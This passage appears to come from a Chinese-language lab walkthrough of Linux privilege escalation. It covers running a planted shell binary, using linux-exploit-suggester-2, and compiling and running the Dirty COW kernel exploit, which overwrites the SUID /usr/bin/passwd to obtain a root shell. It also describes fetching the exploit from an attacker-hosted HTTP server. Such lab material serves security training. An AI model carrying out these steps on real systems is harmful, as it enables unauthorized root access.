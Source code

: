 在目标机上操作（通过ssh登陆之后的界面），作为目标机上的低权限用户帐户，执行共享目录下的文件以获得 root shell:

```shell
/tmp/shell.elf
```

![image-20221011183839029](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20221011183839029.png)

**答题卡**

![image-20221011173153434](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20221011173153434.png)

## 内核漏洞exp提权

内核漏洞利用是权限提升的最后一招，内核漏洞利用（exp）可能会使系统处于不稳定状态，这就是为什么只有在万不得已的情况下才应该运行它们。

有许多工具可用于识别当前内核版本中的可利用漏洞：

> https://github.com/mzet-/linux-exploit-suggester
>
> https://github.com/jondonas/linux-exploit-suggester-2

运行**Linux Exploit Suggester 2**工具，来识别当前系统上潜在的可利用内核漏洞（它运行在目标系统上，如果目标系统上没有这个工具，就要下载或者上传一个）:

```shell
perl /home/user/tools/kernel-exploits/linux-exploit-suggester-2/linux-exploit-suggester-2.pl
#上条命令可以后跟参数，如：-k 2.6.32 （将会查找版本为2.6.32的linux系统内核漏洞exp）
```

![image-20221011184420060](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20221011184420060.png)

观察以上命令的输出结果，我们可以看到目标系统存在一个非常流行的Linux内核漏洞"Dirty COW"（脏牛），我们接下来利用这个漏洞的exp来提权。

> exp全称：Linux 内核2.6.22 < 3.9(x86/x64)- 'Dirty COWCOW/proc/self/mem' 竞争条件权限提升(SUID 方法)
>
> exp链接：https://www.exploit-db.com/exploits/40616

在目标机上创建c0w.c文件-----该文件的内容为"Dirty COW"的exp代码；也可以将exp文件放置在攻击机上，然后攻击机使用python3开启HTTP服务，目标机通过wget下载c0w.c文件。

执行这个exp会将SUID文件/usr/bin/passwd替换为 生成shell的文件（从外在看不出变化），我们先备份/usr/bin/passwd到/tmp/bak：

```shell
cp /usr/bin/passwd /tmp/bak  #执行脏牛exp时，也可能会自动备份/usr/bin/passwd
```

编译c0w.c文件，将编译结果输出为一个可执行文件c0w，然后我们执行c0w：

```shell
gcc -pthread /home/user/tools/kernel-exploits/dirtycow/c0w.c -o c0w
./c0w
```

一旦exp执行完毕，我们就去运行/usr/bin/passwd文件，最后得到一个root权限的shell：

```shell
/usr/bin/passwd
```

![image-20221011185606043](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20221011185606043.png)
